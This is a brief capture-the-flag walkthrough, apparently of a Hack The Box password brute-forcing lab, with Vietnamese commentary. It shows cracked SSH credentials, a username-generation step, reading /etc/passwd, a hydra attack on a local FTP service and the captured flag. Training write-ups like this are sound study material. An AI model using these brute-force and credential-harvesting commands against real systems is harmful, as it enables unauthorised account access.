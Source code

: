 ```
[37572][ssh] host: 94.237.51.163   login: satwossh   password: password1
```

```zsh
ssh satwossh@94.237.51.163 -p 37572
```

```zsh
./username-anarchy/username-anarchy Thomas Smith > thomas_smith_usernames.txt
```

Nếu bạn muốn đi đường tắt:

```zsh
cat /etc/passwd | grep -v "nologin"
```

Ở đó bạn sẽ thấy người dùng `thomas`

```zsh
hydra -l thomas -P passwords.txt ftp://127.0.0.1 -t 64 -I -f
```

```
[21][ftp] host: 127.0.0.1   login: thomas   password: chocolate!
```

+ 4  What is the flag contained within flag.txt

```zsh
ftp 127.0.0.1
```

```zsh
cat flag.txt 
HTB{brut3f0rc1ng_succ3ssful}
```
